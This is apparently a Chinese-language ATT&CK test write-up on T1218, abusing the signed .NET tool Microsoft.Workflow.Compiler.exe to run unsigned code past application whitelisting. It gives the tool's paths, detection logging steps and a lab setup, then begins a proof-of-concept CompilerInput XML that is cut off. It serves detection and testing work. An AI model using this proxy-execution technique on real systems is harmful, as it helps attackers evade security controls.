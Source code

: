# T1218-001-win-基于白名单Compiler.exe执行payload

## 来自ATT&CK的描述

许多软件开发相关的实用程序可用于执行各种形式的代码用以协助开发、调试和逆向工程。这些实用程序通常可以使用合法证书进行签名。签名后，它们就可以在系统上执行，并通过可信的进程代理执行恶意代码，从而有效地绕过应用白名单防御解决方案。

## 测试案例

 Microsoft.Workflow.Comiler.exe是.NET Framework默认自带的一个实用工具，用户能够以XOML工作流文件的形式提供一个序列化工作流来执行任意未签名的代码。

Microsoft.Workflow.Comiler.exe需要两个命令行参数，第一个参数必须是一个XML文件（由一个序列化CompilerInput对象构成）的路径，第二个参数则是写入序列化编译结果的文件路径。

说明：Microsoft.Workflow.Compiler.exe所在路径没有被系统添加PATH环境变量中，因此，Microsoft.Workflow.Compiler命令无法识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

win7默认位置：

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe`

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe`

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 方法1

#### POC.xml

```xml
<?xml version="1.0" encoding="utf‐8"?>

<CompilerInput xmlns:i="http://www.w3.org/2001/XMLSchema‐instance" xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Workflow.Compiler"

<files xmlns:d2p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays">

<d2p1:string>add.tcp</d2p1:string>

</files>

<parameters xmlns:d2p1="http://schemas.datacontract.org/2004/07/System.Workflow.ComponentModel.Compiler">

<assemblyNames xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />

<compilerOptions i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />

<coreAssemblyFileName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></coreAssemblyFileName>
```